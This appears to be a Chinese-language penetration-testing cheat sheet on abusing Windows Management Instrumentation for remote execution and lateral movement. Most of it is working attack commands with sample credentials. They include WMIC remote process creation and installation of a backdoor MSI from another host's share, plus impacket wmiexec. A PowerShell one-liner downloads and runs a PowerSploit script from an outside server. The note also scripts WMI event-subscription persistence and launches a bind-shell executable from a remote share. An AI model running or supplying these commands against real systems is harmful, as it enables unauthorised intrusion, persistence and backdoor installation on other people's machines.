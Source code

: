 # WMI利用

**关于WMI**

* 可通过WMI管理本地和远程计算机
* WIndows为远程传输WMI提供了两个可用协议：
  * DCOM(分布式组件对象模型)
  * WinRM(WIndows远程管理)
* 利用WMI需要具备WMI服务为开启状态(默认开启)与防火墙放行135端口

**基础命令**

远程查询进程信息

```
WMIC /node:192.168.0.106 /user:Administrator /password:P@ssW0rd! process list brief
```

创建远程进程(调用win32\_Process方法在远程主机上创建进程)(无回显)

```
WMIC /node:192.168.0.106 /user:Administrator /password:P@ssW0rd! process call create "cmd.exe /c ipconfig > C:\result_ipconfig.txt"
```

远程安装MSI文件(后门)(调用Win32\_Product.Install方法)

```
WMIC /node:192.168.0.106 /user:Administrator /password:P@ssW0rd! product call install PackageLocation="\\192.168.0.108\lbwnb\bind_tcp4567.msi"
```

**Impacket项目WMIEXEC**

用于获取交互式命令行，需要远程主机开启135端口与445端口，其中445端口用于传输回显

```
python3 wmiexec.py Administrator:P@ssW0rd!@10.10.10.22
```

Windows平台使用

```
pip3 install pyinstaller
pyinstaller -f wmiexec.py
wmiexec.exe Administrator:P@ssW0rd!@192.168.0.106
```

**Invoke-WmiCommand**

PowerSploit-master]]\CodeExecution\Invoke-WmiCommand.ps1，PowerSploit项目脚本,可以通过Powershell调用WMI远程执行命令 远程加载Invoke-WmiCommand.ps1

```
IEX(New-Object Net.Webclient).DownloadString('http://192.168.0.104:8000/Invoke-WmiCommand.ps1')
```

指定远程系统用户名

```
$user = "Administrator"
```

指定用户密码

```
$password = ConvertTo-SecureString -String "P@ssW0rd!" -AsPlainText -Force
```

将用户名密码整合，方便导入Credential

```
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $user,$password
```

指定远程IP与执行命令

```
$Remote = Invoke-WmiCommand -payload {ipconfig} -Credential $Cred -ComputerName "10.10.10.22"
```

输出命令执行回显

```
$Remote.payloadOutput
```

**WMI事件订阅**

```
- 所有事件过滤器都会被存储在ROOT\subscription:__EventFilter对象实例中
- 可以通过创建__EventFilter对象实例来部署事件过滤器
- 使用ActiveScriptEventConsumer和CommandLineEventConsumer可以在远程主机上执行任何攻击载荷
- 触发事件的具体条件为"事件过滤器"，如用户登录、新建进程
- 对指定事件做出响应的叫"事件消费者".如运行脚本、发送邮件
```

PowerShell手动利用WMI事件订阅

```
[[整合PSCredential]]
$Username ="Administrator"
$Password = "P@ssW0rd!"
$SecurePassword = $Password | ConvertTo-SecureString -AsplainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $username,$Securepassword

[[设置攻击目标和其他公共参数]]
$GlobalArgs = @{}
$ComputerName = "192.168.0.106"
$GlobalArgs['Credential'] = $Credential
$GlobalArgs['ComputerName'] = $ComputerName

[[在远程主机部署名为]]"TestFilter"事件过滤器，用于查询svchost.exe进程产生，通过Set-WmiInstance Cmdlet创建一个__EVentFilter类的实例
$EventFilterArgs = @{
	EventNamespace = 'root/cimv2'
	Name = "TestFilter"
	Query = "SELECT * FROM Win32_ProcessStartTrace where processname = 'svchost.exe'"
	QueryLanguage = 'WQL'
}
$EventFilter = Set-WmiInstance -Namespace root\subscription -Class __EventFilter -Arguments $EventFilterArgs @GlobalArgs

[[在远程主机上部署名为]]"TestConsumer" 的事件消费者创建事件消费者类CommandLineEventConsumer的实例，在指定事件发送时执行命令
$CommandLineEventConsumerArgs = @{
	Name = "TestConsumer"
	CommandLineTemplate = "C:\Windows\System32\cmd.exe /c calc.exe"
}
$EventConsumer = Set-WmiInstance -Namespace root\subscription -Class CommandLineEventConsumer -Arguments $CommandLineEventConsumerArgs @GlobalArgs

[[创建事件过滤器与事件消费者绑定一起]]
$FilterConsumerBindingArgs = @{
	Filter = $EventFilter
	Comsumer = $EventConsumer
}
$FilterConsumerBinding = Set-WmiInstance -Namespace root\subscription -Class __FilterToConsumerBinding -Arguments $FilterConsumerBindingArgs @GlobalArgs
```

**Sharp-WMIEvent ps1脚本事件订阅**

```
.\Sharp-WMIEvent.ps1 -Trigger -IntervalPeriod 1 -ComputerName 192.168.0.105 -Domain hack-my.com -Username Administrator -Password P@ssW0rd! -Command "cmd.exe /c \\192.168.0.108\lbwnb\bind_tcp4567.exe"
```
